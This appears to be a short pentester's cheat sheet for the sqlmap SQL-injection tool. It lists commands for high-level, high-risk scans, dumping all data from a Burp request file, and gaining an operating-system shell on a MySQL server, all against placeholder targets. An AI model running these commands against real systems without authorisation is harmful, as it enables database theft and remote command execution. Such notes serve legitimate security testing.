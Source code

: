 # sqlmap

## level and risk options
--level 5
--risk 3

## custom injection marker
use an asterisk symbol to mark an injection point in a URL
` http://target.box/vuln.php?a=1&b=* `

## search string response on site for successful injection
--string "successful injection text here"

## Test All (Default Settings)
```bash
-u "http://192.168.0.1/database/inject.php?q=user" --batch
```

## Test All (Default Settings, High Stress)
```bash
-u "http://192.168.0.1/database/inject.php?q=user" --batch --level=5 --risk=3
```

## with burp request Test All (Default Settings)
```bash
--all -r post_request.txt --batch 
```

## with burp request Test All (Default Settings, High Stress)
```bash
--all -r post_request.txt --batch --level=5 --risk=3
```

## with burp request Get A Reverse Shell (MySQL)
```bash
-r post_request.txt --dbms "mysql" --os-shell
```
